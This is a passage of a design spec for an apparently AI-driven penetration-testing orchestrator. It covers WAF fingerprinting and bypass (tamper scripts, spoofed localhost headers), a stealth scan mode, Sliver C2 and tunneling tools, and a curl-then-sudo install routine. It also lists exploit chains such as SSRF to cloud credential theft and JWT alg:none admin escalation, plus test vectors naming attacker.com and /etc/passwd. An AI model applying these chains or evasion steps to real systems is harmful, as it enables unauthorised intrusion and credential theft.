[aegis](https://github.com/thecnical/aegis) is an optional wrapper/orchestrator that can supplement or fall back to when primary tools are unavailable. It is treated as an external tool installed on first use.

### Architecture Addition



### Component: AegisBridge

**Purpose**: Wraps the aegis CLI as a last-resort fallback scanner. Clones and installs aegis on first use, invokes it via subprocess, and normalises its output into the standard `ChainResult` format.

**Interface**:

```python
class AegisBridge:
    AEGIS_REPO = "https://github.com/thecnical/aegis"
    AEGIS_DIR  = Path("tools/external/aegis")

    def is_available(self) -> bool: ...
    def ensure_installed(self) -> bool:
        """Clone repo into AEGIS_DIR if not present. Returns True on success."""
    def run(self, target: str, phase: str) -> ChainResult:
        """
        Invoke aegis CLI for the given target/phase.
        Returns degraded ChainResult if aegis is unavailable or fails.
        """
    def _parse_aegis_output(self, raw: str, phase: str) -> dict[str, Any]:
        """Map aegis JSON/text output to the standard result dict schema."""
```

**Preconditions:**
- Git is available on PATH (for clone)
- Network access to github.com on first use

**Postconditions:**
- Returns ChainResult in all cases (never raises)
- If aegis is not available, returns `ChainResult(degraded=True)` with a descriptive error in `tool_attempts`
- Parsed output conforms to the same schema as other tool results (`ports`, `subdomains`, `urls`, `vulnerabilities`)

### Integration with FallbackChain

```pascal
ALGORITHM FallbackChain.execute(target)
  ...
  // After all primary tools exhausted:
  IF all_tools_failed AND aegis_bridge.is_available() THEN
    aegis_result <- aegis_bridge.run(target, self.phase)
    IF NOT aegis_result.degraded THEN
      RETURN aegis_result
    END IF
  END IF

  RETURN ChainResult(degraded=True, ...)
```

### Output Parsing Rules

```python
# aegis outputs JSON lines; each line is a finding
# Example aegis output line:
# {"type": "subdomain", "value": "api.example.com", "source": "aegis"}
# {"type": "vulnerability", "name": "XSS", "severity": "high", "url": "..."}

AEGIS_TYPE_MAP = {
    "subdomain":     lambda r: {"subdomains": [r["value"]]},
    "url":           lambda r: {"urls": [r["value"]]},
    "vulnerability": lambda r: {"vulnerabilities": [{
        "name":     r.get("name", "unknown"),
        "severity": r.get("severity", "info"),
        "url":      r.get("url"),
        "evidence": r.get("evidence", ""),
        "tool_sources": ["aegis"],
    }]},
}
```

---

## Upgrade 3: Isolated Python Environments (ToolVenvManager)

Tools with Python dependencies each run in their own virtualenv under `.hackempire/venvs/{tool_name}/`. This prevents dependency conflicts (e.g. sqlmap vs ghauri vs paramspider all having conflicting `requests` pins).

### Component: ToolVenvManager

**Interface**:

```python
class ToolVenvManager:
    VENV_BASE = Path(".hackempire/venvs")

    def get_venv_python(self, tool_name: str) -> Path:
        """Return path to venv Python interpreter, creating venv if needed."""

    def ensure_venv(self, tool_name: str, pip_packages: list[str]) -> Path:
        """
        Create venv at VENV_BASE/{tool_name}/ if it doesn't exist.
        Install pip_packages into it.
        Returns path to venv's Python interpreter.
        """

    def run_in_venv(
        self,
        tool_name: str,
        cmd: list[str],
        *,
        timeout_s: float,
        env: dict[str, str] | None = None,
    ) -> subprocess.CompletedProcess:
        """
        Replace cmd[0] with the venv Python if cmd[0] == "python" or "python3".
        Otherwise prepend venv bin/ to PATH so the tool binary resolves to the venv copy.
        """
```

**Preconditions:**
- Python 3.8+ available on system PATH
- `.hackempire/venvs/` directory is writable

**Postconditions:**
- Each tool's venv is created exactly once (idempotent)
- Tool subprocess uses the isolated interpreter
- System site-packages are not inherited (venv created with `--system-site-packages=False`)

### Venv Directory Layout

```
.hackempire/
  venvs/
    sqlmap/
      bin/python
      lib/python3.x/site-packages/sqlmap/
    ghauri/
      bin/python
      lib/python3.x/site-packages/ghauri/
    paramspider/
      bin/python
      lib/python3.x/site-packages/paramspider/
    arjun/
      bin/python
      lib/python3.x/site-packages/arjun/
```

### Algorithm

```pascal
ALGORITHM ToolVenvManager.ensure_venv(tool_name, pip_packages)
INPUT: tool_name (string), pip_packages (list[string])
OUTPUT: python_path (Path)

BEGIN
  venv_dir    <- VENV_BASE / tool_name
  python_path <- venv_dir / "bin" / "python"

  IF python_path EXISTS THEN
    RETURN python_path   // already created — idempotent
  END IF

  RUN [sys.executable, "-m", "venv", "--clear", str(venv_dir)]

  FOR each pkg IN pip_packages DO
    RUN [str(python_path), "-m", "pip", "install", "--quiet", pkg]
  END FOR

  ASSERT python_path EXISTS
  RETURN python_path
END
```

### Integration with BaseTool

`BaseTool` gains an optional `venv_packages: list[str]` class attribute. When set, `ToolManager` instantiates a `ToolVenvManager` and passes the venv Python path to the tool's `run()` method via a new `_venv_python` instance attribute.

```python
class BaseTool(abc.ABC):
    venv_packages: list[str] = []   # override in subclass if Python deps needed

    def _get_interpreter(self) -> str:
        """Return venv Python path if venv_packages set, else 'python3'."""
        if self._venv_python:
            return str(self._venv_python)
        return "python3"
```

---

## Upgrade 4: WAF Bypass Methodology

### Components

#### WafDetector

**Purpose**: Fingerprints the WAF vendor in front of the target using `wafw00f`.

**Interface**:

```python
class WafDetector:
    def detect(self, target: str) -> WafResult: ...

@dataclass
class WafResult:
    detected: bool
    vendor: str | None          # e.g. "Cloudflare", "Akamai", "ModSecurity"
    confidence: float           # 0.0 to 1.0
    raw_output: str
```

**Preconditions:**
- `wafw00f` is installed (pip package `wafw00f`)
- target is a valid URL or domain

**Postconditions:**
- Returns WafResult in all cases (never raises)
- If wafw00f is not installed or fails, returns `WafResult(detected=False, vendor=None, confidence=0.0)`

#### WafBypassStrategy

**Purpose**: Selects the appropriate sqlmap tamper scripts and HTTP bypass headers based on the detected WAF vendor.

**Interface**:

```python
class WafBypassStrategy:
    def get_sqlmap_tampers(self, waf_vendor: str | None) -> list[str]: ...
    def get_bypass_headers(self, waf_vendor: str | None) -> dict[str, str]: ...
    def apply_to_nuclei_flags(self, waf_vendor: str | None) -> list[str]:
        """Return --header flags for nuclei based on bypass headers."""
```

**WAF → Tamper Script Mapping**:

```python
WAF_TAMPER_MAP: dict[str, list[str]] = {
    "cloudflare":   ["space2comment", "randomcase", "between"],
    "akamai":       ["between", "charencode", "space2comment"],
    "modsecurity":  ["space2comment", "charencode", "randomcomments"],
    "imperva":      ["between", "charencode", "space2randomblank"],
    "f5":           ["randomcase", "space2comment", "charencode"],
    "barracuda":    ["space2comment", "randomcase"],
    "sucuri":       ["charencode", "between"],
    "default":      ["space2comment", "randomcase"],   # fallback
}
```

**Bypass Headers** (applied to all HTTP tool calls):

```python
BYPASS_HEADERS: dict[str, str] = {
    "X-Forwarded-For":   "127.0.0.1",
    "X-Real-IP":         "127.0.0.1",
    "X-Originating-IP":  "127.0.0.1",
    "X-Remote-IP":       "127.0.0.1",
    "X-Remote-Addr":     "127.0.0.1",
    "X-Client-IP":       "127.0.0.1",
    "CF-Connecting-IP":  "127.0.0.1",
    "True-Client-IP":    "127.0.0.1",
}
```

### Integration Points

1. **Orchestrator**: After recon phase, runs `WafDetector.detect(target)` and stores `WafResult` in `ScanContext`.
2. **SqlmapTool**: Reads `context.waf_result` and calls `WafBypassStrategy.get_sqlmap_tampers()` to build `--tamper` flag.
3. **NucleiTool**: Calls `WafBypassStrategy.apply_to_nuclei_flags()` to append `--header` flags.
4. **BaseTool**: `_build_proxy_env()` is extended to also inject bypass headers into the subprocess environment as `HACKEMPIRE_BYPASS_HEADERS` (JSON-encoded), which tool implementations can read.

### Algorithm

```pascal
ALGORITHM apply_waf_bypass(target, context, tool)
INPUT: target (string), context (ScanContext), tool (BaseTool)
OUTPUT: augmented command list

BEGIN
  waf <- context.waf_result

  IF waf IS NULL THEN
    waf <- WafDetector.detect(target)
    context.waf_result <- waf
  END IF

  IF tool.name = "sqlmap" THEN
    tampers <- WafBypassStrategy.get_sqlmap_tampers(waf.vendor)
    cmd.append("--tamper=" + join(tampers, ","))
  END IF

  bypass_headers <- WafBypassStrategy.get_bypass_headers(waf.vendor)
  FOR each (header, value) IN bypass_headers DO
    IF tool.name = "nuclei" THEN
      cmd.append("--header")
      cmd.append(header + ": " + value)
    ELSE
      env[header] <- value
    END IF
  END FOR

  RETURN cmd
END
```

---

## Upgrade 5: Enhanced AI Knowledge Base

`PentestKnowledgeBase` is expanded with structured entries covering 2025 vulnerability patterns, bug bounty methodology, tool output parsing rules, WAF bypass decision logic, and exploit chain suggestions.

### Extended Knowledge Base Structure

```python
@dataclass
class KnowledgeEntry:
    category: str           # "owasp", "api_security", "bug_bounty", "tool_parsing", "waf_bypass", "exploit_chain"
    id: str                 # e.g. "A01:2021", "API1:2023", "IDOR-001"
    title: str
    description: str
    detection_patterns: list[str]   # regex or keyword patterns in tool output
    severity_default: str           # "info" | "low" | "medium" | "high" | "critical"
    remediation: str
    references: list[str]

class PentestKnowledgeBase:
    entries: list[KnowledgeEntry]

    def get_default_todo(self, target: str) -> TodoList: ...
    def get_tool_parse_rules(self, tool_name: str) -> list[ParseRule]: ...
    def get_waf_bypass_tree(self, waf_vendor: str | None) -> BypassDecision: ...
    def get_exploit_chains(self, vuln_type: str) -> list[ExploitChain]: ...
    def map_severity_to_bounty(self, severity: str, platform: str) -> BountyTriage: ...
```

### 2025 OWASP Top 10 + API Security Top 10 Entries

```python
OWASP_2021 = [
    "A01:2021 - Broken Access Control",
    "A02:2021 - Cryptographic Failures",
    "A03:2021 - Injection",
    "A04:2021 - Insecure Design",
    "A05:2021 - Security Misconfiguration",
    "A06:2021 - Vulnerable and Outdated Components",
    "A07:2021 - Identification and Authentication Failures",
    "A08:2021 - Software and Data Integrity Failures",
    "A09:2021 - Security Logging and Monitoring Failures",
    "A10:2021 - Server-Side Request Forgery (SSRF)",
]

OWASP_API_2023 = [
    "API1:2023 - Broken Object Level Authorization (BOLA/IDOR)",
    "API2:2023 - Broken Authentication",
    "API3:2023 - Broken Object Property Level Authorization",
    "API4:2023 - Unrestricted Resource Consumption",
    "API5:2023 - Broken Function Level Authorization",
    "API6:2023 - Unrestricted Access to Sensitive Business Flows",
    "API7:2023 - Server Side Request Forgery",
    "API8:2023 - Security Misconfiguration",
    "API9:2023 - Improper Inventory Management",
    "API10:2023 - Unsafe Consumption of APIs",
]
```

### Vulnerability Pattern Library

```python
VULN_PATTERNS = {
    "IDOR": {
        "detection": ["parameter tampering", "object id in URL", "sequential IDs", "UUID enumeration"],
        "test_vectors": ["change user_id=1 to user_id=2", "replace /users/me with /users/1"],
        "severity": "high",
    },
    "SSRF": {
        "detection": ["url= parameter", "fetch= parameter", "redirect= parameter", "webhook URL"],
        "test_vectors": ["http://169.254.169.254/latest/meta-data/", "http://127.0.0.1:22/"],
        "exploit_chain": "SSRF → cloud metadata → IAM credentials → privilege escalation",
        "severity": "critical",
    },
    "OAuth_Misconfig": {
        "detection": ["redirect_uri not validated", "state parameter missing", "implicit flow"],
        "test_vectors": ["redirect_uri=https://attacker.com", "missing state CSRF token"],
        "severity": "high",
    },
    "JWT_Attack": {
        "detection": ["alg:none", "weak secret", "kid injection", "jwks confusion"],
        "test_vectors": ["alg=none bypass", "HS256 with RS256 public key", "kid=../../etc/passwd"],
        "severity": "critical",
    },
    "GraphQL_Injection": {
        "detection": ["__schema introspection", "batching attacks", "field suggestions"],
        "test_vectors": ["introspection query", "alias batching for rate limit bypass"],
        "severity": "medium",
    },
}
```

### Bug Bounty Triage Methodology

```python
BOUNTY_SEVERITY_MAP = {
    # HackerOne severity → typical payout range
    "hackerone": {
        "critical": {"cvss_range": (9.0, 10.0), "payout_usd": (5000, 50000)},
        "high":     {"cvss_range": (7.0, 8.9),  "payout_usd": (1000, 5000)},
        "medium":   {"cvss_range": (4.0, 6.9),  "payout_usd": (200, 1000)},
        "low":      {"cvss_range": (0.1, 3.9),  "payout_usd": (50, 200)},
        "info":     {"cvss_range": (0.0, 0.0),  "payout_usd": (0, 0)},
    },
    # Bugcrowd priority → VRT mapping
    "bugcrowd": {
        "P1": "critical",
        "P2": "high",
        "P3": "medium",
        "P4": "low",
        "P5": "info",
    },
}
```

### Tool Output Parsing Rules (all 36 tools)

```python
@dataclass
class ParseRule:
    tool_name: str
    output_format: Literal["json", "jsonl", "csv", "text", "xml"]
    finding_key: str | None         # JSON key for findings array (if JSON)
    severity_field: str | None      # field name for severity
    url_field: str | None
    name_field: str | None
    regex_patterns: list[str]       # for text-format tools

TOOL_PARSE_RULES: dict[str, ParseRule] = {
    "nuclei":       ParseRule("nuclei",       "jsonl", None,          "severity", "matched-at", "template-id", []),
    "afrog":        ParseRule("afrog",        "json",  "results",     "severity", "url",         "name",        []),
    "dalfox":       ParseRule("dalfox",       "json",  "results",     "severity", "param",       "type",        []),
    "ghauri":       ParseRule("ghauri",       "text",  None,          None,       None,          None,          [r"Parameter: (\w+)", r"Type: (.+)"]),
    "nikto":        ParseRule("nikto",        "xml",   "item",        "severity", "uri",         "description", []),
    "testssl":      ParseRule("testssl",      "json",  "scanResult",  "severity", "ip",          "id",          []),
    "subfinder":    ParseRule("subfinder",    "text",  None,          None,       None,          None,          [r"^([a-zA-Z0-9._-]+\.[a-zA-Z]{2,})$"]),
    "amass":        ParseRule("amass",        "text",  None,          None,       None,          None,          [r"^([a-zA-Z0-9._-]+\.[a-zA-Z]{2,})"]),
    "httpx":        ParseRule("httpx",        "jsonl", None,          None,       "url",         "title",       []),
    "katana":       ParseRule("katana",       "jsonl", None,          None,       "endpoint",    None,          []),
    "feroxbuster":  ParseRule("feroxbuster",  "json",  "results",     None,       "url",         "status",      []),
    "ffuf":         ParseRule("ffuf",         "json",  "results",     None,       "url",         "input",       []),
    "sqlmap":       ParseRule("sqlmap",       "text",  None,          None,       None,          None,          [r"Parameter: (.+?) \(", r"Type: (.+)"]),
    "trufflehog":   ParseRule("trufflehog",   "json",  "results",     "severity", "sourceMetadata", "detectorName", []),
    "jsluice":      ParseRule("jsluice",      "jsonl", None,          None,       "url",         "kind",        []),
    # ... remaining 21 tools follow same pattern
}
```

### WAF Bypass Decision Tree

```pascal
FUNCTION get_waf_bypass_decision(waf_vendor)
  IF waf_vendor IS NULL THEN
    RETURN BypassDecision(tampers=["space2comment"], headers=BYPASS_HEADERS, rate_limit_rps=10)
  END IF

  vendor_lower <- lowercase(waf_vendor)

  SWITCH vendor_lower
    CASE "cloudflare":
      RETURN BypassDecision(
        tampers=["space2comment", "randomcase", "between"],
        headers=BYPASS_HEADERS + {"CF-Connecting-IP": "127.0.0.1"},
        rate_limit_rps=5
      )
    CASE "akamai":
      RETURN BypassDecision(
        tampers=["between", "charencode"],
        headers=BYPASS_HEADERS,
        rate_limit_rps=3
      )
    CASE "modsecurity":
      RETURN BypassDecision(
        tampers=["space2comment", "charencode", "randomcomments"],
        headers=BYPASS_HEADERS,
        rate_limit_rps=10
      )
    DEFAULT:
      RETURN BypassDecision(tampers=["space2comment"], headers=BYPASS_HEADERS, rate_limit_rps=10)
  END SWITCH
END FUNCTION
```

### Exploit Chain Suggestions

```python
EXPLOIT_CHAINS: list[ExploitChain] = [
    ExploitChain(
        name="SSRF → Cloud Metadata → Credential Theft",
        trigger_vuln="SSRF",
        steps=[
            "Confirm SSRF via http://169.254.169.254/latest/meta-data/",
            "Fetch IAM role: /latest/meta-data/iam/security-credentials/",
            "Extract AccessKeyId, SecretAccessKey, Token",
            "Use credentials with aws-cli or pacu for privilege escalation",
        ],
        severity="critical",
        tools=["nuclei", "sqlmap", "commix"],
    ),
    ExploitChain(
        name="IDOR → Account Takeover",
        trigger_vuln="IDOR",
        steps=[
            "Enumerate user IDs via sequential parameter fuzzing",
            "Access /api/users/{id}/profile with victim ID",
            "Modify email/password via PUT /api/users/{id}",
        ],
        severity="high",
        tools=["ffuf", "arjun"],
    ),
    ExploitChain(
        name="JWT alg:none → Admin Escalation",
        trigger_vuln="JWT_Attack",
        steps=[
            "Decode JWT, change alg to 'none', remove signature",
            "Modify role claim to 'admin'",
            "Re-encode and replay request",
        ],
        severity="critical",
        tools=["caido", "nuclei"],
    ),
    ExploitChain(
        name="GraphQL Introspection → Data Exfiltration",
        trigger_vuln="GraphQL_Injection",
        steps=[
            "Run introspection query to map all types and fields",
            "Identify sensitive types (User, Payment, Token)",
            "Craft queries to extract data without authorization checks",
        ],
        severity="high",
        tools=["nuclei", "caido"],
    ),
]
```

---

## Upgrade 6: CLI Improvements

### TLS / HTTPS Transport

All CLI ↔ backend communication uses HTTPS + SocketIO over TLS. A self-signed certificate is auto-generated on first run and stored at `.hackempire/tls/`.

```pascal
ALGORITHM ensure_tls_cert()
  cert_dir  <- Path(".hackempire/tls")
  cert_file <- cert_dir / "cert.pem"
  key_file  <- cert_dir / "key.pem"

  IF cert_file EXISTS AND key_file EXISTS THEN
    RETURN (cert_file, key_file)
  END IF

  CREATE cert_dir (parents=True, exist_ok=True)
  RUN openssl req -x509 -newkey rsa:4096 -keyout key_file -out cert_file
      -days 365 -nodes -subj "/CN=hackempire-local"

  RETURN (cert_file, key_file)
```

Flask is started with `ssl_context=(cert_file, key_file)`. The CLI connects via `https://127.0.0.1:5443` with `verify=False` (self-signed).

### Extended CLI Commands

```python
# cli/commands.py additions

@cli.command()
@click.argument("target")
@click.option("--mode", type=click.Choice(["recon-only", "full", "exploit", "stealth"]), default="full")
@click.option("--resume", is_flag=True, help="Resume from last saved state")
def scan(target: str, mode: str, resume: bool) -> None:
    """Start or resume a scan against TARGET."""

@cli.command()
def status() -> None:
    """Show current scan status with phase progress bars."""

@cli.command()
@click.option("--format", type=click.Choice(["pdf", "json", "html", "markdown", "csv"]), default="html")
def report(format: str) -> None:
    """Generate a report in the specified format."""

@cli.command()
def install_tools() -> None:
    """Install all 36 tools (with per-tool venv where needed)."""

@cli.command()
def terminal() -> None:
    """Open the web terminal in the default browser."""

@cli.command()
@click.argument("key")
@click.argument("value")
def config(key: str, value: str) -> None:
    """Set a configuration value (stored in .hackempire/config.json)."""
```

### Scan Modes

```python
SCAN_MODES: dict[str, ScanModeConfig] = {
    "recon-only": ScanModeConfig(
        phases=["recon", "url_discovery"],
        rate_limit_rps=20,
        stealth=False,
    ),
    "full": ScanModeConfig(
        phases=["recon", "url_discovery", "enumeration", "vuln_scan", "exploitation", "post_exploit", "reporting"],
        rate_limit_rps=10,
        stealth=False,
    ),
    "exploit": ScanModeConfig(
        phases=["exploitation", "post_exploit", "reporting"],
        rate_limit_rps=10,
        stealth=False,
        requires_explicit_consent=True,
    ),
    "stealth": ScanModeConfig(
        phases=["recon", "url_discovery", "enumeration", "vuln_scan"],
        rate_limit_rps=2,
        stealth=True,
        jitter_ms=(500, 3000),
    ),
}
```

### Rich Progress Bars

```python
# cli/progress.py — uses `rich` library
from rich.progress import Progress, SpinnerColumn, BarColumn, TextColumn, TimeElapsedColumn
from rich.console import Console
from rich.theme import Theme

HACKER_THEME = Theme({
    "critical": "bold red",
    "high":     "red",
    "medium":   "yellow",
    "low":      "cyan",
    "info":     "dim white",
    "success":  "bold green",
    "phase":    "bold magenta",
})

def render_phase_progress(phases: dict[str, float]) -> None:
    """Render per-phase progress bars with Rich."""
    with Progress(
        SpinnerColumn(),
        TextColumn("[phase]{task.description}"),
        BarColumn(),
        TextColumn("{task.percentage:>3.0f}%"),
        TimeElapsedColumn(),
    ) as progress:
        tasks = {
            phase: progress.add_task(phase, total=100)
            for phase in phases
        }
        for phase, pct in phases.items():
            progress.update(tasks[phase], completed=pct * 100)

def render_finding(vuln: Vulnerability) -> None:
    """Color-coded severity output."""
    console = Console(theme=HACKER_THEME)
    severity_style = vuln.severity  # maps to theme key
    console.print(
        f"[{severity_style}][{vuln.severity.upper()}][/{severity_style}] "
        f"{vuln.name} — {vuln.target}"
        + (f" (CVSS {vuln.cvss_score})" if vuln.cvss_score else "")
    )
```

---

## Upgrade 7: Web Interface Upgrades

### Architecture Addition



### Live Vulnerability Feed Panel

New SocketIO event `vuln_found` is emitted by `RealTimeEmitter` whenever a new vulnerability is discovered. The frontend appends a card to the feed without a full page refresh.

```javascript
// dashboard.html — live feed
socket.on("vuln_found", (vuln) => {
    const card = buildFindingCard(vuln);
    document.getElementById("vuln-feed").prepend(card);  // newest first
    updateSeverityCounter(vuln.severity);
});

function buildFindingCard(vuln) {
    const severityColors = {
        critical: "#ff0040", high: "#ff6600",
        medium: "#ffcc00", low: "#00ccff", info: "#888"
    };
    return `
    <div class="finding-card" data-severity="${vuln.severity}">
      <div class="card-header" onclick="toggleCard(this)">
        <span class="severity-badge" style="color:${severityColors[vuln.severity]}">
          ${vuln.severity.toUpperCase()}
        </span>
        <span class="vuln-name">${vuln.name}</span>
        <span class="cvss">${vuln.cvss_score ? 'CVSS ' + vuln.cvss_score : ''}</span>
        <span class="chevron">▼</span>
      </div>
      <div class="card-body collapsed">
        <p><strong>Target:</strong> ${vuln.target}</p>
        <p><strong>Evidence:</strong> <code>${vuln.evidence}</code></p>
        <p><strong>Remediation:</strong> ${vuln.remediation}</p>
        <p><strong>Tools:</strong> ${vuln.tool_sources.join(', ')}</p>
      </div>
    </div>`;
}
```

### Phase Progress Rings (Chart.js Donut Charts)

```javascript
// One donut chart per phase, updated via SocketIO
const phaseCharts = {};

function initPhaseRings(phases) {
    phases.forEach(phase => {
        const ctx = document.getElementById(`ring-${phase}`).getContext("2d");
        phaseCharts[phase] = new Chart(ctx, {
            type: "doughnut",
            data: {
                datasets: [{
                    data: [0, 100],
                    backgroundColor: ["#00ff41", "#1a1a1a"],
                    borderWidth: 0,
                }]
            },
            options: { cutout: "75%", plugins: { legend: { display: false } } }
        });
    });
}

socket.on("phase_progress", ({ phase, percent }) => {
    const chart = phaseCharts[phase];
    if (chart) {
        chart.data.datasets[0].data = [percent, 100 - percent];
        chart.update("none");  // no animation for real-time feel
    }
});
```

### AI Decision Panel

```javascript
socket.on("ai_decision", (decision) => {
    const panel = document.getElementById("ai-panel");
    panel.innerHTML = `
    <div class="ai-reasoning">
      <div class="ai-header">🤖 AI Analysis — ${decision.phase}</div>
      <div class="ai-summary">${decision.summary}</div>
      <div class="ai-next-steps">
        <strong>Suggested next tools:</strong>
        <ul>${decision.tools.map(t => `<li>${t}</li>`).join('')}</ul>
      </div>
      <div class="ai-chains">
        <strong>Exploit chains detected:</strong>
        <ul>${(decision.exploit_chains || []).map(c => `<li>${c}</li>`).join('')}</ul>
      </div>
    </div>`;
});
```

### xterm.js Terminal Tab

```html
<!-- dashboard.html — terminal tab -->
<div id="terminal-tab" class="tab-content">
  <div id="xterm-container"></div>
</div>

<script>
const term = new Terminal({
    theme: {
        background: "#0d0d0d",
        foreground: "#00ff41",
        cursor:     "#00ff41",
    },
    fontFamily: "JetBrains Mono, monospace",
    fontSize: 14,
});
const fitAddon = new FitAddon.FitAddon();
term.loadAddon(fitAddon);
term.open(document.getElementById("xterm-container"));
fitAddon.fit();

socket.on("terminal_output", (data) => term.write(data));
term.onData((data) => socket.emit("terminal_input", data));
window.addEventListener("resize", () => fitAddon.fit());
</script>
```

### Dark Hacker Theme (CSS)

```css
/* web/static/hacker-theme.css */
:root {
    --bg-primary:    #0d0d0d;
    --bg-secondary:  #111111;
    --bg-card:       #161616;
    --accent-green:  #00ff41;
    --accent-red:    #ff0040;
    --accent-yellow: #ffcc00;
    --accent-cyan:   #00ccff;
    --text-primary:  #e0e0e0;
    --text-dim:      #666666;
    --border:        #1e1e1e;
    --font-mono:     "JetBrains Mono", "Fira Code", monospace;
}

body {
    background: var(--bg-primary);
    color: var(--text-primary);
    font-family: var(--font-mono);
}

.finding-card {
    background: var(--bg-card);
    border-left: 3px solid var(--accent-green);
    margin-bottom: 8px;
    border-radius: 4px;
}

.finding-card[data-severity="critical"] { border-left-color: var(--accent-red); }
.finding-card[data-severity="high"]     { border-left-color: #ff6600; }
.finding-card[data-severity="medium"]   { border-left-color: var(--accent-yellow); }
.finding-card[data-severity="low"]      { border-left-color: var(--accent-cyan); }

.card-body.collapsed { display: none; }
.card-body.expanded  { display: block; padding: 12px; }

.severity-badge { font-weight: bold; margin-right: 8px; }
```

### Export Endpoints (routes.py additions)

```python
@bp.route("/api/export/<format>")
def export_report(format: str) -> Response:
    """
    Supported formats: pdf, json, html, markdown, csv
    Returns file download response.
    """
    state = read_state()
    if format == "pdf":
        return send_file(pdf_report.generate(state), mimetype="application/pdf",
                         download_name="hackempire-report.pdf")
    elif format == "json":
        return Response(json.dumps(state, indent=2), mimetype="application/json",
                        headers={"Content-Disposition": "attachment; filename=report.json"})
    elif format == "html":
        return Response(html_export.generate(state), mimetype="text/html",
                        headers={"Content-Disposition": "attachment; filename=report.html"})
    elif format == "markdown":
        return Response(markdown_export.generate(state), mimetype="text/markdown",
                        headers={"Content-Disposition": "attachment; filename=report.md"})
    elif format == "csv":
        return Response(csv_export.generate(state), mimetype="text/csv",
                        headers={"Content-Disposition": "attachment; filename=report.csv"})
    else:
        return jsonify({"error": f"Unknown format: {format}"}), 400
```

### New Frontend Dependencies (CDN)

```html
<!-- Add to base.html <head> -->
<script src="https://cdn.jsdelivr.net/npm/xterm@5/lib/xterm.js"></script>
<link  href="https://cdn.jsdelivr.net/npm/xterm@5/css/xterm.css" rel="stylesheet">
<script src="https://cdn.jsdelivr.net/npm/xterm-addon-fit@0.8/lib/xterm-addon-fit.js"></script>
<script src="https://cdn.jsdelivr.net/npm/chart.js@4/dist/chart.umd.min.js"></script>
<script src="https://cdn.socket.io/4.7.2/socket.io.min.js"></script>
```

### New Python Dependencies (additions to requirements.txt)

```
rich>=13.7.0
wafw00f>=2.2.0
```

---

## Upgrade 8: Advanced Tool Integration & Methodology Expansion

This upgrade integrates 10 additional tools spanning URL discovery, web fingerprinting, parameter discovery, SQL injection, command injection, JS analysis, tunneling, C2 frameworks, anonymization, and comprehensive recon orchestration. It also introduces complete XSS and SQLi attack methodologies, a `TorManager` anonymization layer, and a `DependencyResolver` with ordered installation.

### Architecture Addition



### New Tool Install Specs (additions to TOOL_INSTALL_SPECS)

```python
# Go-based tools
"gauplus":  ToolInstallSpec(name="gauplus",  method="go", package="github.com/bp0lr/gauplus@latest"),
"chisel":   ToolInstallSpec(name="chisel",   method="go", package="github.com/jpillora/chisel@latest"),

# Ruby-based tools
"whatweb":  ToolInstallSpec(name="whatweb",  method="gem", package="whatweb"),

# Pip-based tools (each gets its own venv via ToolVenvManager)
"arjun":    ToolInstallSpec(name="arjun",    method="pip", package="arjun"),

# Apt-based tools
"sqlmap":   ToolInstallSpec(name="sqlmap",   method="apt", package="sqlmap"),
"tor":      ToolInstallSpec(name="tor",      method="apt", package="tor"),
"proxychains4": ToolInstallSpec(name="proxychains4", method="apt", package="proxychains4"),

# Git-cloned tools
"commix":   ToolInstallSpec(name="commix",   method="git",
                package="https://github.com/commixproject/commix.git",
                git_dest="/opt/commix"),
"jsvulns":  ToolInstallSpec(name="jsvulns",  method="git",
                package="https://github.com/dxa4481/jsvulns.git",
                git_dest="/opt/jsvulns"),
"reconftw": ToolInstallSpec(name="reconftw", method="git",
                package="https://github.com/six2dez/reconftw.git",
                git_dest="/opt/reconftw"),

# Script-based install (Sliver C2 — exploit mode only)
"sliver":   ToolInstallSpec(name="sliver",   method="script",
                package="https://sliver.sh/install"),
```

`InstallMethod` is extended to include `"go"`, `"gem"`, and `"script"`:

```python
InstallMethod = Literal["apt", "pip", "git", "go", "gem", "script"]

def _run_gem(self, spec: ToolInstallSpec) -> None:
    cmd = ["gem", "install", spec.package]
    self._run_subprocess(cmd, tool_name=spec.name)

def _run_script(self, spec: ToolInstallSpec) -> None:
    """Download and execute an install script. Requires sudo."""
    import tempfile, os
    with tempfile.NamedTemporaryFile(suffix=".sh", delete=False) as f:
        script_path = f.name
    try:
        self._run_subprocess(["curl", "-fsSL", spec.package, "-o", script_path], tool_name=spec.name)
        os.chmod(script_path, 0o755)
        self._run_subprocess(["sudo", "bash", script_path], tool_name=spec.name)
    finally:
        os.unlink(script_path)
```

### Venv Packages for New Python Tools

```python
TOOL_VENV_PACKAGES: dict[str, list[str]] = {
    "arjun":   ["arjun"],
    "commix":  ["requests", "urllib3"],
    "jsvulns": ["requests", "beautifulsoup4", "lxml"],
}
```

### Updated Phase Tool Registry (PHASE_TOOLS_2025)

```python
PHASE_TOOLS_2025: dict[str, list[str]] = {
    "recon":         ["subfinder", "amass", "httpx", "dnsx", "whatweb", "reconftw"],
    "url_discovery": ["katana", "gauplus", "waybackurls", "hakrawler", "gospider", "jsvulns"],
    "enumeration":   ["feroxbuster", "ffuf", "dirsearch", "arjun", "kiterunner", "paramspider"],
    "vuln_scan":     ["nuclei", "afrog", "nikto", "dalfox", "ghauri", "testssl"],
    "exploitation":  ["sqlmap", "commix", "xsstrike", "caido", "metasploit-rpc", "sliver"],
    "post_exploit":  ["chisel", "crackmapexec", "impacket", "bloodhound", "trufflehog", "linpeas"],
    "reporting":     ["ai-summary", "pdf-generator", "html-report", "json-export", "markdown-export", "csv-export"],
}
```

Key changes from the Upgrade 1 registry:
- `gau` → replaced by `gauplus` in `url_discovery` (faster, random-agent, better subdomain handling)
- `whatweb` promoted to `recon` phase (replaces `shuffledns` slot; fingerprinting belongs in recon)
- `reconftw` added to `recon` as comprehensive fallback (runs last in FallbackChain)
- `jsvulns` added to `url_discovery` (JS secret/endpoint extraction alongside jsluice)
- `arjun` added to `enumeration` (parameter discovery after URL collection)
- `commix` added to `exploitation` (command injection alongside sqlmap)
- `sliver` added to `exploitation` (C2 — gated behind `--mode=exploit` + confirmation)
- `chisel` added to `post_exploit` (tunneling/pivoting)

### Tool Profiles (AI Knowledge for New Tools)

```python
TOOL_PROFILES_UPGRADE8: dict[str, ToolProfile] = {
    "gauplus": ToolProfile(
        name="gauplus",
        repo="github.com/bp0lr/gauplus",
        install_cmd="go install github.com/bp0lr/gauplus@latest",
        phase="url_discovery",
        usage="gauplus -t 5 -random-agent -subs -o urls.txt {target}",
        output_format="text",
        parse_rule=ParseRule("gauplus", "text", None, None, None, None,
                             [r"^(https?://[^\s]+)$"]),
        advantage="Faster than gau; supports random user-agent rotation and subdomain URL collection",
        dependencies=["go>=1.18"],
    ),
    "whatweb": ToolProfile(
